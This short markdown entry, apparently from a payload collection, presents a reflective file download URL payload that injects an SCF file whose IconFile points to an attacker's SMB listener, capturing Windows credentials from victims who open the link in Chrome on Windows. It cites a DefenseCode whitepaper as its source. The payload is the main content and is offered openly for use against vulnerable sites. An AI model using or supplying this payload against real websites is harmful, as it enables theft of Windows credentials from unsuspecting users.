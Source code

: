 ### Details

Below payload can be used on a website which is vulnerable to reflective file download.

```
http[s]://vulnerablesite.com/vulnerablelink/filename.scf?prefix=%0A[SHELL]%0AIconFile=\\\\<SMB_LISTENER_IP_ADDRESS>\\<RANDOM_FILE>&format=jsonp
```

To execute this payload, Victim must visit the link with Google Chrome running on Microsoft Windows to capture the credentials.

### Reference:
[Stealing Windows Credentials Using Google Chrome](https://www.defensecode.com/whitepapers/Stealing-Windows-Credentials-Using-Google-Chrome.pdf)
